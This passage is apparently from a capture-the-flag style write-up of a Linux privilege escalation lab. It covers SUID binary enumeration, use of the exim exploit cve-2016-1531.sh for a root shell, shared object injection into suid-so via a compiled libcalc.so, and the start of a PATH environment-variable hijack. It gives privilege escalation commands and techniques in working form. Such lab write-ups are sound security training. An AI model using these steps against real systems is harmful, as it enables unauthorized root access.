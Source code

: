 find / -type f -perm -u=s 2>/dev/null

```
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/sudoedit
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/local/bin/suid-so
/usr/local/bin/suid-env
/usr/local/bin/suid-env2
/usr/sbin/exim-4.84-3 => Let's try this
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/pt_chown
/bin/ping6
/bin/ping
/bin/mount
/bin/su
/bin/umount
/tmp/rootbash
/sbin/mount.nfs
```

Searching in exploit-db we get `cve-2016-1531.sh` . Executing it we have root shell!

# Task 12 - SUID/SGID Executables - Shared Object Injection

Loading a shared library into a running process using strace/ptrace.

/usr/local/bin/suid-so SUID executable is vulnerable to shared object injection.

Run `/usr/local/bin/suid-so` then `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`

**Output:
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
user@debian:~$ mkdir /home/user/.config**

It searches for a particular directory, so we create it `mkdir /home/user/.config`

Compiling libcalc.c into a shared object at location suid-so is looking for.

`gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c`

Now running `/usr/local/bin/suid-so` gives us root shell!!

# Task 13 - SUID/SGID Executables - Environment Variables

The /usr/local/bin/suid-env executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

Running `/usr/local/bin/suid-env` and now running strings gives us `service apache2 start` which doesn't metntion the full path of service `/usr/sbin/service`.
